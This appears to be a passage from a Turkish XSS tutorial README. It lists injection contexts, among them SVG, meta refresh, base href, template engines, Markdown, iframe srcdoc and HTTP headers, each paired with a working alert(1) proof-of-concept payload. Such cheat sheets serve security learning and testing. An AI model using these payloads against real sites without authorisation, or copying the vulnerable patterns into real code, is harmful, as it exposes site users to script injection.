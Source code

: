 <h1>CONTEXTS</h1>
<br>

<h2>🔹 9. SVG / XML Context</h2>
<h4>Input SVG veya XML içeriği içinde kullanılır. SVG elementlerinin event handler’ları (ör: circle onload=...)<br>
sayesinde XSS mümkündür. Input kontrol edilmezse buradan da XSS çıkar.</h4><br>

📌 Örnek:  
`<svg><circle onload="alert(1)"/></svg>`  
<br>
🎯 Exploit:  
```html
<svg/onload=alert(1)>
```
<br>



<h2>🔹 10. Meta Tag Context</h2>
<h4>Input meta tag’ının attribute’larına gömülür, özellikle http-equiv="refresh" ile sayfa otomatik yönlendirilirken<br>
content attribute’u içine javascript: URI yerleştirilebilir. Böylece sayfa JS koduyla yönlendirilip XSS olur.</h4><br>

📌 Örnek:  
`<meta http-equiv="refresh" content="0;url=PAYLOAD">`  
<br>
🎯 Exploit:  
```html
javascript:alert(1)"
```
<br>



<h2>🔹 11. Base Href Context</h2>
<h4>Sayfada (base href="...") varsa, ve bu değer kontrolsüzse, base URL olarak javascript: URI<br>
verilip tüm sayfadaki göreceli URL’ler JS kodu çalıştıracak şekilde değiştirilebilir.

</h4><br>

📌 Örnek:  
```
<base href="javascript://">
<a href="/x">Click</a>
```  
<br>
🎯 Exploit:  

```html
<base href="javascript://">
<a href="/alert(1)">Click</a>
``` 
<br>


<h2>🔹 12. Template Injection Context</h2>
<h4>Client-side template motorlarında (Mustache, Handlebars, AngularJS, VueJS) input, template ifadesi olarak gömülür.<br>
Burada ham expression’lar (ör. {{constructor.constructor("alert(1)")()}}) ile XSS yapılabilir.</h4><br>

📌 Örnek:  
```html
<script type="text/template">
  Hello {{PAYLOAD}}
</script>
```
<br>

🎯 Exploit:  
```js
{{constructor.constructor("alert(1)")()}}
```
<br>



<h2>🔹 13. Markdown / BBCode Context</h2>
<h4>Input Markdown veya BBCode olarak işleniyor, sonrasında HTML’ye dönüştürülüyorsa, <br>
özellikle javascript: URI içeren linkler veya resimler XSS açığı oluşturabilir.</h4><br>

📌 Örnek:  
`[click](javascript:alert(1))`  
<br>
🎯 Exploit:  
```html
![img](javascript:alert(1))
```
<br>



<h2>🔹 14. Iframe Srcdoc Context</h2>
<h4>Input iframe’in srcdoc attribute’una doğrudan yerleştiriliyorsa, buraya kötü amaçlı<br>
script kodları konabilir. Eğer sandbox parametresi izin verirse bu XSS’e dönüşür.</h4><br>

📌 Örnek:  
```document.body.innerHTML = `<iframe srcdoc="${userInput}">`;```  
veya  
`element.innerHTML = location.hash;`
<br>  
🎯 Exploit:  
```html
#<iframe srcdoc="<script>alert(1)</script>" sandbox="allow-scripts">
```
srcdoc payload’larında sandbox="allow-scripts" olmazsa script çalışmaz.  
<br>



<h2>🔹 15. Sandboxed Context (Controlled via CSP / Sandbox attr)</h2>
<h4>iframe sandbox attribute’u belirli kısıtlamalar getirir. Yanlış konfigüre edilirse,<br>
örneğin allow-scripts ile script çalışmasına izin veriliyorsa, buradan XSS yapılabilir.

</h4><br>

📌 Örnek:  
`<iframe sandbox="allow-scripts" srcdoc="PAYLOAD"></iframe>`  
<br>
🎯 Exploit:  
```html
<script>alert(1)</script>
```
srcdoc payload’larında sandbox="allow-scripts" olmazsa script çalışmaz.  
<br>



<h2>🔹 16. HTTP Header Context</h2>
<h4>Bazı XSS’ler response header’ları üzerinden yapılır. Örneğin, Location header’da kontrolsüz javascript: URI<br>
kullanılırsa, redirect ile XSS olur. Ayrıca Refresh, Referer ve CSP header’ları da hedef olabilir.</h4><br>

📌 Örnek:  
`Location: PAYLOAD`
<br>  
🎯 Exploit:  
```html
javascript:alert(1)
```
Ayrıca kontrol edilmesi gerekenler:  
`Refresh:` `Referer:` `Content-Security-Policy:` injection olabilir.
